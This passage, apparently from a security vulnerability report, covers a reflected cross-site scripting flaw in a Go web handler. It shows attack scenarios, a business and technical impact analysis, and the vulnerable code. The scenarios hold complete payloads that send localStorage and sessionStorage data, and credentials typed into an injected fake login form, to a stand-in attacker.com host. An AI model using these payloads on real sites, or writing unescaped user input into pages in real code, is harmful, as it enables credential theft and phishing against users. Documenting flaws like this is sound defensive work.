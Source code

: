 **Scenario 2: Stored Credentials Theft**
If the application uses client-side storage for sensitive data, an attacker could craft a payload to extract this information:
```
https://acme-app.com/vulnerable?input=<script>fetch('https://attacker.com/steal', {method: 'POST', body: JSON.stringify({localStorage: localStorage, sessionStorage: sessionStorage})})</script>

```
This payload sends all data stored in localStorage and sessionStorage to the attacker's server, potentially including cached credentials, personal information, or application data.

**Scenario 3: Phishing Through UI Manipulation**
An attacker creates a more sophisticated payload that injects a fake login form into the legitimate application:
```
https://acme-app.com/vulnerable?input=<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:999"><h2>Session Expired</h2><form onsubmit="fetch('https://attacker.com/steal',{method:'POST',body:JSON.stringify({username:this.username.value,password:this.password.value})});return false"><input name="username" placeholder="Username"><input name="password" placeholder="Password" type="password"><button>Login</button></form></div>

```
This injection creates a full-page overlay that appears to be part of the legitimate application, tricking users into submitting their credentials directly to the attacker.

# Impact Analysis
**Business Impact:**
- Unauthorized access to user accounts through session hijacking, potentially affecting customer trust and satisfaction
- Potential breach of sensitive user data, which may trigger regulatory compliance issues (GDPR, CCPA, etc.)
- Reputational damage if exploits become public or widespread
- Financial losses due to fraud if the application handles financial transactions
- Legal liability for failure to adequately protect user data
- Resources required for incident response, customer support, and communications if a breach occurs

**Technical Impact:**
- Compromise of user sessions allowing attackers to perform actions as legitimate users
- Theft of authentication tokens, cookies, and other sensitive browser-accessible data
- Ability to perform unauthorized operations within the application on behalf of victims
- Collection of sensitive data visible in the application interface
- Potential for more severe exploitation if combined with other vulnerabilities
- Bypassing of client-side security controls
- Distribution of malware through trusted application domains

# Technical Details
The vulnerability exists in a Go web application using the Gorilla mux router, specifically in the `vulnerableHandler` function that processes requests to the `/vulnerable` endpoint.

```go
func vulnerableHandler(w http.ResponseWriter, r *http.Request) {
	// Untrusted user input is retrieved directly from the query string.
	userInput := r.URL.Query().Get("input")
	
	// Vulnerable code: Directly writing user-controlled input to the response.
	w.Write([]byte("<html><body>User input: " + userInput + "</body></html>"))
}

```
